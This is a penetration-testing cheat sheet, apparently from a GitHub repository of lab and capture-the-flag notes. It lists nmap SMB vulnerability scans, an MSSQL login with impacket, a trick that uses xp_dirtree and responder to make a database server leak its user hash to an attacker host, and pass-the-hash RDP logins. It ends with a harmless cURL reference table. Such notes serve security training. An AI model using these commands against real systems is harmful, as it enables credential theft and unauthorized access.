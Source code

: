 
## Windows SMB enumeration
* nmap - SMB Vulnerabilities on Windows
```
nmap -p 445 --script smb-vuln-ms06-025 target-IP
nmap -p 445 --script smb-vuln-ms07-029 target-IP
nmap -p 445 --script smb-vuln-ms08-067 target-IP
nmap -p 445 --script smb-vuln-ms10-054 target-IP
nmap -p 445 --script smb-vuln-ms10-061 target-IP
nmap -p 445 --script smb-vuln-ms17-010 target-IP
```
## MS SQL
* Connect with the db with mssqlclient - github [link](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)
```
python3 mssqlclient.py -windows-auth user@10.10.10.125
```

* dump mssql user hash with `responder`

`target`
```
SQL> xp_dirtree "\\<attacker-ip>\anything\"
```
`attacker`
```
root@kali:~# responder -I tun0
```

## xfreerdp
* login with the user hash
```
xfreerdp /u:user /d:domain /pth:011AD41795657A8ED80AB3FF6F078D03 /v:10.5.23.42
```

* login with the user password
```
xfreerdp /u:user /d:domain /p:password /v:10.5.23.42
```
-----------------------------------------------------------------------------------------------------------
# cURL Cheat Sheet

| **Command** | **Description** |
| --------------|-------------------|
| `curl -h` | cURL help menu |
| `curl inlanefreight.com` | Basic GET request |
| `curl -s -O inlanefreight.com/index.html` | Download file |
| `curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation |
| `curl inlanefreight.com -v` | Print full HTTP request/response details |
| `curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers) |
| `curl -i https://www.inlanefreight.com` | Print response headers and response body |
| `curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header |
| `curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials |
| `curl  http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTT basic authorization credentials in the URL |
| `curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header |